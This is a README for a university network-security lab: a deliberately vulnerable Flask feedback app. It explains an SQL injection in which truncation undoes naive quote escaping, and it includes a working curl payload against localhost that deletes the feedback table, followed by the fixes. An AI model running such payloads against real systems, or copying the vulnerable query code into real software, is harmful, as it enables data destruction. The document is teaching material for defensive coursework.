 # NCS lab 4
Intentionally vulnerable application (home assignment) for [S22] Network and Cyber Security course at Innopolis University.

The application works on Flask framework and contains these intended vulnerabilities:
* SQL Injection

## Authors
The assignment was done by Kirill Ivanov, Ilya Kolomin.

## Launch instructions

### On first startup
* Install flask (if not already): https://flask.palletsprojects.com/en/2.1.x/installation/

* When launching the application for the first time, run `python init_db.py` to initialize the DB using schema

### Start with existing DB
To start the program use this:
```bash
export FLASK_APP=main
flask run
```

## Vulnerabilities
Repository with fixed vulnerabilities can be found [here](https://github.com/bragov4ik/ncs_lab_4/tree/fixed_version)
### SQL Injection
#### Description
This vulnerability allows malicious users to execute unintended queries on the server database (or existing queries with unexpected parameters). It allows to perform some dangerous actions on the database, which include deletion of the records, stealing of the personal data, and etc.

#### Technical description
Currently user input is sanitized naively (by replacing single quote with two single quotes: `'` -> `''`). However, after the sanitizing the input is trimmed to not exceed a certain threshold, which may revert this action. Let's look at the code snippet that manages the SQL query:
```python
author = sanitize(author)
text = sanitize(text)
author = author[:128]
text = text[:512]
q = "INSERT INTO feedback (author, text) VALUES ('{}', '{}');".format(
    author, text
)
conn.cursor().executescript(q)
```
Here, if `author` would be equal to 127 `a` characters and one `'`, sanitize would transform it into 129 character-long string and after that remove the last appended quote. This will turn the query into
```python
"INSERT INTO feedback (author, text) VALUES ('aa...aa'', '{}');"
```
which will allow to write unescaped data into the second field. For example, we could send
```python
text=",');delete from feedback;--"
```
which will result in 
```python
text = sanitize(text)
text == ",'');delete from feedback;--" # True
"INSERT INTO feedback (author, text) VALUES ('aa...aa'', ','');delete from feedback;--');"
```
and this is a valid SQL query that gets executed and results in `feedback` table being purged.
##### Note
We can't simply type the values in the input fields since `maxlength` attribute does not allow us to do so. However, we can easily remove it by opening the page source code and editing it. 
#### Exploitation process
Using tool `curl` we can exploit the vulnerability:
```bash
curl -d "author=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'&text=,');delete from feedback;--" -X POST http://127.0.0.1:5000/feedback
```
Assuming the application is running at http://127.0.0.1:5000/
#### Screenshots during exploitation

Before the attack:

![before](./images/before_sqli.png)

The attack:

![during](./images/attack_sqli.png)

Consequences:

![after](./images/after_sqli.png)
As we can see, previous reviews were deleted

#### Fixing recommendations
The following fixes should help with the problem:
1. It's better to use sqlite3's feature called "DB-API's parameter substitution" that is [recommended by authors of the library](https://docs.python.org/3/library/sqlite3.html#sqlite3-placeholders)
2. Use more robust escaping, for example [suggested by the flask's documentation](https://flask.palletsprojects.com/en/2.1.x/quickstart/#html-escaping) `markupsafe.escape`.
3. Trim the strings before manipulations. It helps to avoid the situations similar to aforementioned.
4. Use `execute` instead of `executescript` which ensures that there is only query supplied.
```python
author = author[:128]
text = text[:512]
author = escape(author)
text = escape(text)
conn.cursor().execute(
    "INSERT INTO feedback (author, text) VALUES (?, ?);",
    (author, text)
)
```
#### [Fixed version link](https://github.com/bragov4ik/ncs_lab_4/blob/fixed_version/main.py#L16)